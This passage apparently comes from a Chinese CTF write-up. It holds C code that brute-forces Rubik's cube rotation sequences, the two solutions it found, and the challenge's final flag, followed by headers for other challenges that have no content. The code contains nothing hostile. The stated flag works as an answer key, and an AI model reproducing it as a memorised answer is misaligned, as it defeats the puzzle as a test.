    dst[43] = src[43];  dst[45] = src[45];  dst[47] = src[47];  dst[48] = src[48];
}

// 轮换：l = L^-1
void l(char *dst, char *src){
    dst[14] = src[ 9];  dst[16] = src[14];  dst[11] = src[16];  dst[ 9] = src[11];  
    dst[12] = src[10];  dst[15] = src[12];  dst[13] = src[15];  dst[10] = src[13];
    dst[40] = src[ 1];  dst[41] = src[40];  dst[17] = src[41];  dst[ 1] = src[17];
    dst[37] = src[ 4];  dst[44] = src[37];  dst[20] = src[44];  dst[ 4] = src[20];
    dst[35] = src[ 6];  dst[46] = src[35];  dst[22] = src[46];  dst[ 6] = src[22];
    dst[ 2] = src[ 2];  dst[ 3] = src[ 3];  dst[ 5] = src[ 5];  dst[ 7] = src[ 7];
    dst[ 8] = src[ 8];  dst[18] = src[18];  dst[19] = src[19];  dst[21] = src[21];
    dst[23] = src[23];  dst[24] = src[24];  dst[25] = src[25];  dst[26] = src[26];
    dst[27] = src[27];  dst[28] = src[28];  dst[29] = src[29];  dst[30] = src[30];
    dst[31] = src[31];  dst[32] = src[32];  dst[33] = src[33];  dst[34] = src[34];
    dst[36] = src[36];  dst[38] = src[38];  dst[39] = src[39];  dst[42] = src[42];
    dst[43] = src[43];  dst[45] = src[45];  dst[47] = src[47];  dst[48] = src[48];
}

// 轮换：F = (17,19,24,22)(18,21,23,20)( 6,25,43,16)( 7,28,42,13)( 8,30,41,11)
void F(char *dst, char *src){
    dst[17] = src[22];  dst[19] = src[17];  dst[24] = src[19];  dst[22] = src[24];  
    dst[18] = src[20];  dst[21] = src[18];  dst[23] = src[21];  dst[20] = src[23];
    dst[ 6] = src[16];  dst[25] = src[ 6];  dst[43] = src[25];  dst[16] = src[43];
    dst[ 7] = src[13];  dst[28] = src[ 7];  dst[42] = src[28];  dst[13] = src[42];
    dst[ 8] = src[11];  dst[30] = src[ 8];  dst[41] = src[30];  dst[11] = src[41];
    dst[ 1] = src[ 1];  dst[ 2] = src[ 2];  dst[ 3] = src[ 3];  dst[ 4] = src[ 4];
    dst[ 5] = src[ 5];  dst[ 9] = src[ 9];  dst[10] = src[10];  dst[12] = src[12];
    dst[14] = src[14];  dst[15] = src[15];  dst[26] = src[26];  dst[27] = src[27];
    dst[29] = src[29];  dst[31] = src[31];  dst[32] = src[32];  dst[33] = src[33];
    dst[34] = src[34];  dst[35] = src[35];  dst[36] = src[36];  dst[37] = src[37];
    dst[38] = src[38];  dst[39] = src[39];  dst[40] = src[40];  dst[44] = src[44];
    dst[45] = src[45];  dst[46] = src[46];  dst[47] = src[47];  dst[48] = src[48];
}

// 轮换：f = F^-1
void f(char *dst, char *src){
    dst[22] = src[17];  dst[24] = src[22];  dst[19] = src[24];  dst[17] = src[19];  
    dst[20] = src[18];  dst[23] = src[20];  dst[21] = src[23];  dst[18] = src[21];  
    dst[16] = src[ 6];  dst[43] = src[16];  dst[25] = src[43];  dst[ 6] = src[25];  
    dst[13] = src[ 7];  dst[42] = src[13];  dst[28] = src[42];  dst[ 7] = src[28];  
    dst[11] = src[ 8];  dst[41] = src[11];  dst[30] = src[41];  dst[ 8] = src[30];
    dst[ 1] = src[ 1];  dst[ 2] = src[ 2];  dst[ 3] = src[ 3];  dst[ 4] = src[ 4];
    dst[ 5] = src[ 5];  dst[ 9] = src[ 9];  dst[10] = src[10];  dst[12] = src[12];
    dst[14] = src[14];  dst[15] = src[15];  dst[26] = src[26];  dst[27] = src[27];
    dst[29] = src[29];  dst[31] = src[31];  dst[32] = src[32];  dst[33] = src[33];
    dst[34] = src[34];  dst[35] = src[35];  dst[36] = src[36];  dst[37] = src[37];
    dst[38] = src[38];  dst[39] = src[39];  dst[40] = src[40];  dst[44] = src[44];
    dst[45] = src[45];  dst[46] = src[46];  dst[47] = src[47];  dst[48] = src[48];
}

// 轮换：R = (25,27,32,30)(26,29,31,28)( 3,38,43,19)( 5,36,45,21)( 8,33,48,24)
void R(char *dst, char *src){
    dst[25] = src[30];  dst[27] = src[25];  dst[32] = src[27];  dst[30] = src[32];  
    dst[26] = src[28];  dst[29] = src[26];  dst[31] = src[29];  dst[28] = src[31];
    dst[ 3] = src[19];  dst[38] = src[ 3];  dst[43] = src[38];  dst[19] = src[43];
    dst[ 5] = src[21];  dst[36] = src[ 5];  dst[45] = src[36];  dst[21] = src[45];
    dst[ 8] = src[24];  dst[33] = src[ 8];  dst[48] = src[33];  dst[24] = src[48];
    dst[ 1] = src[ 1];  dst[ 2] = src[ 2];  dst[ 4] = src[ 4];  dst[ 6] = src[ 6];
    dst[ 7] = src[ 7];  dst[ 9] = src[ 9];  dst[10] = src[10];  dst[11] = src[11];
    dst[12] = src[12];  dst[13] = src[13];  dst[14] = src[14];  dst[15] = src[15];
    dst[16] = src[16];  dst[17] = src[17];  dst[18] = src[18];  dst[20] = src[20];
    dst[22] = src[22];  dst[23] = src[23];  dst[34] = src[34];  dst[35] = src[35];
    dst[37] = src[37];  dst[39] = src[39];  dst[40] = src[40];  dst[41] = src[41];
    dst[42] = src[42];  dst[44] = src[44];  dst[46] = src[46];  dst[47] = src[47];
}

// 轮换：r = R^-1
void r(char *dst, char *src){
    dst[30] = src[25];  dst[32] = src[30];  dst[27] = src[32];  dst[25] = src[27];  
    dst[28] = src[26];  dst[31] = src[28];  dst[29] = src[31];  dst[26] = src[29];
    dst[19] = src[ 3];  dst[43] = src[19];  dst[38] = src[43];  dst[ 3] = src[38];
    dst[21] = src[ 5];  dst[45] = src[21];  dst[36] = src[45];  dst[ 5] = src[36];
    dst[24] = src[ 8];  dst[48] = src[24];  dst[33] = src[48];  dst[ 8] = src[33];
    dst[ 1] = src[ 1];  dst[ 2] = src[ 2];  dst[ 4] = src[ 4];  dst[ 6] = src[ 6];
    dst[ 7] = src[ 7];  dst[ 9] = src[ 9];  dst[10] = src[10];  dst[11] = src[11];
    dst[12] = src[12];  dst[13] = src[13];  dst[14] = src[14];  dst[15] = src[15];
    dst[16] = src[16];  dst[17] = src[17];  dst[18] = src[18];  dst[20] = src[20];
    dst[22] = src[22];  dst[23] = src[23];  dst[34] = src[34];  dst[35] = src[35];
    dst[37] = src[37];  dst[39] = src[39];  dst[40] = src[40];  dst[41] = src[41];
    dst[42] = src[42];  dst[44] = src[44];  dst[46] = src[46];  dst[47] = src[47];
}

// 轮换：B = (33,35,40,38)(34,37,39,36)( 3, 9,46,32)( 2,12,47,29)( 1,14,48,27)
void B(char *dst, char *src){
    dst[33] = src[38];  dst[35] = src[33];  dst[40] = src[35];  dst[38] = src[40];  
    dst[34] = src[36];  dst[37] = src[34];  dst[39] = src[37];  dst[36] = src[39];
    dst[ 3] = src[32];  dst[ 9] = src[ 3];  dst[46] = src[ 9];  dst[32] = src[46];
    dst[ 2] = src[29];  dst[12] = src[ 2];  dst[47] = src[12];  dst[29] = src[47];
    dst[ 1] = src[27];  dst[14] = src[ 1];  dst[48] = src[14];  dst[27] = src[48];
    dst[ 4] = src[ 4];  dst[ 5] = src[ 5];  dst[ 6] = src[ 6];  dst[ 7] = src[ 7];
    dst[ 8] = src[ 8];  dst[10] = src[10];  dst[11] = src[11];  dst[13] = src[13];
    dst[15] = src[15];  dst[16] = src[16];  dst[17] = src[17];  dst[18] = src[18];
    dst[19] = src[19];  dst[20] = src[20];  dst[21] = src[21];  dst[22] = src[22];
    dst[23] = src[23];  dst[24] = src[24];  dst[25] = src[25];  dst[26] = src[26];
    dst[28] = src[28];  dst[30] = src[30];  dst[31] = src[31];  dst[41] = src[41];
    dst[42] = src[42];  dst[43] = src[43];  dst[44] = src[44];  dst[45] = src[45];
}

// 轮换：b = B^-1
void b(char *dst, char *src){
    dst[38] = src[33];  dst[40] = src[38];  dst[35] = src[40];  dst[33] = src[35];  
    dst[36] = src[34];  dst[39] = src[36];  dst[37] = src[39];  dst[34] = src[37];
    dst[32] = src[ 3];  dst[46] = src[32];  dst[ 9] = src[46];  dst[ 3] = src[ 9];
    dst[29] = src[ 2];  dst[47] = src[29];  dst[12] = src[47];  dst[ 2] = src[12];
    dst[27] = src[ 1];  dst[48] = src[27];  dst[14] = src[48];  dst[ 1] = src[14];
    dst[ 4] = src[ 4];  dst[ 5] = src[ 5];  dst[ 6] = src[ 6];  dst[ 7] = src[ 7];
    dst[ 8] = src[ 8];  dst[10] = src[10];  dst[11] = src[11];  dst[13] = src[13];
    dst[15] = src[15];  dst[16] = src[16];  dst[17] = src[17];  dst[18] = src[18];
    dst[19] = src[19];  dst[20] = src[20];  dst[21] = src[21];  dst[22] = src[22];
    dst[23] = src[23];  dst[24] = src[24];  dst[25] = src[25];  dst[26] = src[26];
    dst[28] = src[28];  dst[30] = src[30];  dst[31] = src[31];  dst[41] = src[41];
    dst[42] = src[42];  dst[43] = src[43];  dst[44] = src[44];  dst[45] = src[45];
}

// 轮换：U = (41,43,48,46)(42,45,47,44)(14,22,30,38)(15,23,31,39)(16,24,32,40)
void U(char *dst, char *src){
    dst[41] = src[46];  dst[43] = src[41];  dst[48] = src[43];  dst[46] = src[48];  
    dst[42] = src[44];  dst[45] = src[42];  dst[47] = src[45];  dst[44] = src[47];
    dst[14] = src[38];  dst[22] = src[14];  dst[30] = src[22];  dst[38] = src[30];
    dst[15] = src[39];  dst[23] = src[15];  dst[31] = src[23];  dst[39] = src[31];
    dst[16] = src[40];  dst[24] = src[16];  dst[32] = src[24];  dst[40] = src[32];
    dst[ 1] = src[ 1];  dst[ 2] = src[ 2];  dst[ 3] = src[ 3];  dst[ 4] = src[ 4];
    dst[ 5] = src[ 5];  dst[ 6] = src[ 6];  dst[ 7] = src[ 7];  dst[ 8] = src[ 8];
    dst[ 9] = src[ 9];  dst[10] = src[10];  dst[11] = src[11];  dst[12] = src[12];
    dst[13] = src[13];  dst[17] = src[17];  dst[18] = src[18];  dst[19] = src[19];
    dst[20] = src[20];  dst[21] = src[21];  dst[25] = src[25];  dst[26] = src[26];
    dst[27] = src[27];  dst[28] = src[28];  dst[29] = src[29];  dst[33] = src[33];
    dst[34] = src[34];  dst[35] = src[35];  dst[36] = src[36];  dst[37] = src[37];
}

// 轮换：u = U^-1  
void u(char *dst, char *src){
    dst[46] = src[41];  dst[48] = src[46];  dst[43] = src[48];  dst[41] = src[43];  
    dst[44] = src[42];  dst[47] = src[44];  dst[45] = src[47];  dst[42] = src[45];
    dst[38] = src[14];  dst[30] = src[38];  dst[22] = src[30];  dst[14] = src[22];
    dst[39] = src[15];  dst[31] = src[39];  dst[23] = src[31];  dst[15] = src[23];
    dst[40] = src[16];  dst[32] = src[40];  dst[24] = src[32];  dst[16] = src[24];
    dst[ 1] = src[ 1];  dst[ 2] = src[ 2];  dst[ 3] = src[ 3];  dst[ 4] = src[ 4];
    dst[ 5] = src[ 5];  dst[ 6] = src[ 6];  dst[ 7] = src[ 7];  dst[ 8] = src[ 8];
    dst[ 9] = src[ 9];  dst[10] = src[10];  dst[11] = src[11];  dst[12] = src[12];
    dst[13] = src[13];  dst[17] = src[17];  dst[18] = src[18];  dst[19] = src[19];
    dst[20] = src[20];  dst[21] = src[21];  dst[25] = src[25];  dst[26] = src[26];
    dst[27] = src[27];  dst[28] = src[28];  dst[29] = src[29];  dst[33] = src[33];
    dst[34] = src[34];  dst[35] = src[35];  dst[36] = src[36];  dst[37] = src[37];
}

void print(char *RC){
    printf("\
      %c %c %c\n\
      %c - %c\n\
      %c %c %c\n\
%c %c %c %c %c %c %c %c %c %c %c %c\n\
%c - %c %c - %c %c - %c %c - %c\n\
%c %c %c %c %c %c %c %c %c %c %c %c\n\
      %c %c %c\n\
      %c - %c\n\
      %c %c %c\n",\
RC[1],RC[2],RC[3],RC[4],RC[5],RC[6],RC[7],RC[8],RC[9],RC[10],RC[11],RC[17],RC[18],RC[19],RC[25],RC[26],RC[27],RC[33],RC[34],RC[35],RC[12],RC[13],RC[20],RC[21],RC[28],RC[29],RC[36],RC[37],RC[14],RC[15],RC[16],RC[22],RC[23],RC[24],RC[30],RC[31],RC[32],RC[38],RC[39],RC[40],RC[41],RC[42],RC[43],RC[44],RC[45],RC[46],RC[47],RC[48]);
}

// 检验
int check(char *RC){
    return (
        RC[ 1] == 'Y' && RC[ 2] == 'Y' && RC[ 3] == 'Y' && RC[ 4] == 'Y' && RC[ 5] == 'Y' && RC[ 6] == 'Y' && RC[ 7] == 'Y' && RC[ 8] == 'Y' &&
        RC[ 9] == 'B' && RC[10] == 'B' && RC[11] == 'B' && RC[12] == 'B' && RC[13] == 'B' && RC[14] == 'B' && RC[15] == 'B' && RC[16] == 'B' &&
        RC[17] == 'R' && RC[18] == 'R' && RC[19] == 'R' && RC[20] == 'R' && RC[21] == 'R' && RC[22] == 'R' && RC[23] == 'R' && RC[24] == 'R' &&
        RC[25] == 'G' && RC[26] == 'G' && RC[27] == 'G' && RC[28] == 'G' && RC[29] == 'G' && RC[30] == 'G' && RC[31] == 'G' && RC[32] == 'G' &&
        RC[33] == 'O' && RC[34] == 'O' && RC[35] == 'O' && RC[36] == 'O' && RC[37] == 'O' && RC[38] == 'O' && RC[39] == 'O' && RC[40] == 'O' &&
        RC[41] == 'W' && RC[42] == 'W' && RC[43] == 'W' && RC[44] == 'W' && RC[45] == 'W' && RC[46] == 'W' && RC[47] == 'W' && RC[48] == 'W'
    );
}

#define MAXDEPTH 12
char RubiksCube[MAXDEPTH+1][49];
char steps[MAXDEPTH];
int solveNum = 0;
void recursion(int depth){
    if (depth == MAXDEPTH){
        if (check(RubiksCube[MAXDEPTH])){
            ++solveNum;
            printf("Solved! -> %s\n",steps);
        }
        return;
    }
    //steps[depth] = 'T';
    //T(RubiksCube[depth+1], RubiksCube[depth]);
    //recursion(depth + 1);
    
    //steps[depth] = 't';
    //t(RubiksCube[depth+1], RubiksCube[depth]);
    //recursion(depth + 1);
    
    //steps[depth] = 'L';
    //L(RubiksCube[depth+1], RubiksCube[depth]);
    //recursion(depth + 1);
    
    //steps[depth] = 'l';
    //l(RubiksCube[depth+1], RubiksCube[depth]);
    //recursion(depth + 1);

    //steps[depth] = 'F';
    //F(RubiksCube[depth+1], RubiksCube[depth]);
    //recursion(depth + 1);
    
    //steps[depth] = 'f';
    //f(RubiksCube[depth+1], RubiksCube[depth]);
    //recursion(depth + 1);

    steps[depth] = 'R';
    R(RubiksCube[depth+1], RubiksCube[depth]);
    recursion(depth + 1);
    
    steps[depth] = 'r';
    r(RubiksCube[depth+1], RubiksCube[depth]);
    recursion(depth + 1);
    
    //steps[depth] = 'B';
    //B(RubiksCube[depth+1], RubiksCube[depth]);
    //recursion(depth + 1);
    
    //steps[depth] = 'b';
    //b(RubiksCube[depth+1], RubiksCube[depth]);
    //recursion(depth + 1);

    steps[depth] = 'U';
    U(RubiksCube[depth+1], RubiksCube[depth]);
    recursion(depth + 1);
    
    steps[depth] = 'u';
    u(RubiksCube[depth+1], RubiksCube[depth]);
    recursion(depth + 1);
}

int main(){
    int i;
    for (i=0; i<MAXDEPTH; i++){
        steps[i] = 0;
    }
    /*
    //初始化一下，没啥用
    int j;
    for (i=0; i<=MAXDEPTH; i++){
        for (j=1; j<=48; j++){
            RubiksCube[i][j] = '-';
        }
    }
    */
    // 魔方设定
    for (i= 1; i<= 8; i++) RubiksCube[0][i] = 'Y';
    for (i= 9; i<=16; i++) RubiksCube[0][i] = 'B';
    for (i=17; i<=24; i++) RubiksCube[0][i] = 'R';
    for (i=25; i<=32; i++) RubiksCube[0][i] = 'G';
    for (i=33; i<=40; i++) RubiksCube[0][i] = 'O';
    for (i=41; i<=48; i++) RubiksCube[0][i] = 'W';
    // 特殊设定
    RubiksCube[0][15] = 'R';
    RubiksCube[0][23] = 'G';
    RubiksCube[0][31] = 'B';

    // 开爆！
    recursion(0);

    printf("\n%d Solve(s)", solveNum);
    return 0;
}
// python打完表后发现用宏函数好了((
// 而且早知道秒出也不打表了))-*
/*
Solved! -> rUrururURURR
Solved! -> rUrururURUrr

2 Solve(s)
*/
```

不是正确解，但是大体方向是对的，最终确定flag：RuRURURururr，和爆破出来的解正好是旋转顺序反了

### [Solved]ezmath

**By moywdr**

### [Solved]ez_enc

**By moywdr**

### [Solved]给阿姨倒一杯卡布奇诺

**By moywdr**
